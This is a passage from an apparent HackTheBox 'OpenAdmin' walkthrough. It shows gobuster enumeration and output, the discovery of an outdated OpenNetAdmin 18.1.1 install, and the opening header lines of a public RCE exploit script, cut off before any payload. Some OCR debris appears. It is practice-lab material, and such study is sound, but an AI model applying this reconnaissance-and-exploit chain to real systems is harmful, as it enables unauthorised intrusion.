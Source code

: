 ```
2020/02/01 07:16:12 Finished
===============================================================
```

Looking at these 2 Endpoint we see "SOLMSUSIC" and "ARCWORK", both sides were created from some template and are filled with lorem ipsum text.

After going through these sites and not really getting a foothold onto anything, I decieded to run gobuster again with a different list, tbh at this point I got kinda desperate from not finding anything so why not give a shot..

```
mindslave@kalibox:~/hackthebox/OpenAdmin$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u 10.1
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/02/01 10:12:08 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/artwork (Status: 301)
/ona
/music (Status: 301)
/server-status (Status: 403)
/sierra (Status: 301)
===============================================================
2020/02/01 10:12:25 Finished
===============================================================
```

This time we found /sierra and /ona, so there is new hope (and this time gobuster also informed me about the .htaccess).
On /sierra we also find a lot of lorem-ipsum text but the /ona endpoint proved to be very interesting because it showed us that OpenNetAdmin is running on the box (something I have personally never heard of before), and it also tells us that it is an outdated version of OpenNetAdmin. A google search for 'OpenNetAdmin 18.1.1 Exploit' came back with an RCE as the first result.

```
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
```